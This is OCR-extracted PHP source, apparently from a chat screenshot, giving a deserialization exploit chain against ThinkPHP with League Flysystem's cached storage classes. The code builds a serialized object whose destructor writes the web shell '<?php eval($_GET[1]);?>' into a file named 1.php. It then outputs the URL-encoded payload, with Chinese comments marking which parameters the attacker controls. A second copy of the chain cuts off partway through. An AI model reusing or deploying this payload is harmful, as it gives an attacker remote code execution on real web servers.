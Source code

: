 namespace League\\Flysystem\\Cached\\Storage{ use think\\cache\\Driver\\File; abstract class AbstractCache{ protected $autosave = false; protected $cache = array(); protected $complete = '<?php eval($\_GET\[1\]);?>'; public function \_\_destruct() { if (! $this->autosave) { $this->save(); } } public function cleanContents(array $contents) { $cachedProperties = array\_flip(\[ 'path', 'dirname', 'basename', 'extension', 'filename', 'size', 'mimetype', 'visibility', 'timestamp', 'type', 'md5', \]);

foreach ($contents as $path => $object) { if (is\_array($object)) { $contents\[$path\] = array\_intersect\_key($object, $cachedProperties); } }

return $contents; }

public function getForStorage() { $cleaned = $this->cleanContents($this->cache);

return json\_encode(\[$cleaned, $this->complete\]); }

} class PhpRedis extends AbstractCache{ protected $client; protected $key = '1.php'; protected $expire = null;

public function \_\_construct($client){ $this->client = $client; } public function save() { $contents = $this->getForStorage(); $this->client->set($this->key, $contents);

if ($this->expire !== null) { $this->client->expire($this->key, $this->expire); } } } $file\_obj = new File(); $phpRedis\_obj = new PhpRedis($file\_obj); echo urlencode(serialize($phpRedis\_obj)); }

胡老师[whitehathu@qq.com](mailto:whitehathu@qq.com "whitehathu@qq.com") 9:28:49 <?php namespace think\\cache{ abstract class Driver{ protected $writeTimes = 0; protected $options = \['expire'=>1, 'hash\_type'=>'md5', 'path'=>'./','cache\_subdir'=>false, 'prefix'=>false, 'data\_compress'=>false\];

} }

namespace think\\cache\\driver{ use think\\cache\\Driver; class File extends Driver {

public function set($name, $value, $expire = null): bool { //$name 完全可控 $value 部分可控 $this->writeTimes++;

if (is\_null($expire)) { $expire = $this->options\['expire'\]; }

$expire = $this->getExpireTime($expire); //使用了$this->getCacheKey($name) $filename = $this->getCacheKey($name);

$dir = dirname($filename);

if (!is\_dir($dir)) { try { mkdir($dir, 0755, true); } catch (\\Exception $e) { // 创建失败 } } //$value部分可控 $data = $this->serialize($value);

if ($this->options\['data\_compress'\] && function\_exists('gzcompress')) { //数据压缩 $data = gzcompress($data, 3); }

$data = "<?php\\n//" . sprintf('%012d', $expire) . "\\n exit();?>\\n" . $data;

$result = file\_put\_contents($filename, $data);

if ($result) { clearstatcache(); return true; }

return false; }

} }

namespace League\\Flysystem\\Cached\\Storage{ use think\\cache\\Driver\\File; abstract class AbstractCache{ protected $autosave = false; protected $cache = array(); protected $complete = '<?php eval($\_GET\[1\]);?>'; public function \_\_destruct() { if (! $this->autosave) { $this->save(); } } public function cleanContents(array $contents) { $cachedProperties = array\_flip(\[ 'path', 'dirname', 'basename', 'extension', 'filename', 'size', 'mimetype', 'visibility', 'timestamp', 'type', 'md5', \]);
